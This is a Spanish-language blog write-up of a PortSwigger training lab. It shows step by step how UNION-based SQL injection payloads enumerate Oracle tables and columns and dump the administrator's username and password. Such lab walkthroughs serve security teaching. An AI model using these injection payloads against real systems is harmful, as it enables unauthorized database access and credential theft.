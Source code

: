 ```yaml
---
title: PortSwigger - SQL injection attack, listing the database contents on Oracle.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection attack, listing the database contents on Oracle. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en el botón **Gifts** o en cualquier otro.

![](/assets/images/images-portswigger-sqli/lab10-1.png)

Como en los demás retos la SQL injection está en la url. 

Para comenzar a enumerar en Oracle siempre debemos especificar una tabla, pero como no conocemos ninguna usaremos [**dual**](https://docs.oracle.com/cd/B19306_01/server.102/b14200/queries009.htm).

```sql
' UNION SELECT null from dual-- -
```

![](/assets/images/images-portswigger-sqli/lab10-2.png)

Con un solo `null` la página nos devuelve un error, pero si seguimos agregando nos damos cuenta que existen 2 columnas.

```sql
' UNION SELECT null,null from dual-- -
```

![](/assets/images/images-portswigger-sqli/lab10-3.png)

Ahora es tiempo de enumerar el nombre de la tabla donde se encuentran las credenciales, para eso usaremos la tabla **all_tables** y seleccionaremos el nombre de las tablas con **table_name**.

```sql
' UNION SELECT table_name,null from all_tables-- -
```

![](/assets/images/images-portswigger-sqli/lab10-4.png)

Con `CTRL + f` escribimos **USERS** y podemos encontrar de manera más rapida la tabla que nos interesa `USERS_XKMLUO`.

![](/assets/images/images-portswigger-sqli/lab10-5.png)

Ahora enumeraremos los nombres de las columnas. Para eso usaremos la tabla `all_tab_columns`, le indicaremos que queremos la columna `column_name` y que nos muestro solo la tabla con nombre `USERS_XKMLUO`.

```sql
' UNION SELECT column_name,null from all_tab_columns where table_name = 'USERS_XKLMUO'-- -
```

- Ten en cuenta que la string después del guión bajo (`_XKLMUO`) es aleatorio para cada usuario, por lo tanto, la tuya será diferente a la mía. Además ten en consideración las mayúsculas, escribe la tabla y las columnas en maýusculas cuando corresponda. Finalmente ten cuidado con las comillas porque también puede darte error.

![](/assets/images/images-portswigger-sqli/lab10-6.png)

Podemos ver que nos devuelve los 2 nombres de las columnas `PASSWORD_UJZJJK` y `USERNAME_HIFSMI`.

![](/assets/images/images-portswigger-sqli/lab10-7.png)

Con esta información podemos terminar de construir nuestro query.

Primero reemplazamos los null por los nombres de las columnas y le indicamos sobre qué tabla debe sacar la información.

```sql
' UNION SELECT PASSWORD_UJZJJK,USERNAME_HIFSMI from USERS_XKLMUO-- -
```

![](/assets/images/images-portswigger-sqli/lab10-8.png)

Podemos ver las credenciales de la cuenta de administrador.

![](/assets/images/images-portswigger-sqli/lab10-9.png)

Hacemos click en el botón **My account**.

![](/assets/images/images-portswigger-sqli/lab10-10.png)

Ingresamos las credenciales.

![](/assets/images/images-portswigger-sqli/lab10-11.png)

Y resolvemos el laboratorio.

![](/assets/images/images-portswigger-sqli/lab10-12.png)

